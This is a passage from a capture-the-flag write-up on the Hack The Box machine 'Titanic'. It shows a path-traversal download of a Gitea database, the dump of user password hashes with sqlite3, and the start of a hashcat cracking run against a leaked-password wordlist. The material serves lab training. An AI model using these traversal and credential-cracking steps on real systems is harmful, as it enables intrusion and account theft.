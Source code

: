 ```
$ wget titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db

Prepended http:// to 'titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db'
--2025-07-24 12:05:50--  http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db
Resolving titanic.htb (titanic.htb)... 10.10.11.55
Connecting to titanic.htb (titanic.htb)|10.10.11.55|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2084864 (2.0M) [application/octet-stream]
Saving to: ‘download?ticket=%2Fhome%2Fdeveloper%2Fgitea%2Fdata%2Fgitea%2Fgitea.db’

download?ticket=%2Fhome%2Fdeve 100%[=================================================>]   1.99M  2.77MB/s    in 0.7s

2025-07-24 12:05:50 (2.77 MB/s) - ‘download?ticket=%2Fhome%2Fdeveloper%2Fgitea%2Fdata%2Fgitea%2Fgitea.db’ saved [2084864/2084864]
```

According to ChatGPT, the password hashes are located in the `user` table: let's dump the credentials:

```
$ sqlite3 gitea.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.

sqlite> SELECT name,passwd FROM user;
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
jens|525efa0cdd272db4dafe0f2a18f96fc0eb66425697ceb46344de82885e4194d86e7e83c6a4147bdb40141a9bda9a1aeb018c
```

There are password hashes for `administrator` as well as `developer` and the account I registered.

We'll probably want to crack the `developer` password because we know from `/etc/passwd` that this is the user we can log in to over SSH. But the current password format is not something Hashcat can work with. I found [this post](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash) by 0xdf which shows a command to format the password into the right format.

That command gives me a `gitea.hashes` file.

```
$ hashcat gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --user

hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-skylake-avx512-AMD Ryzen 7 7700X 8-Core Processor, 1431/2927 MB (512 MB allocatable), 2MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
```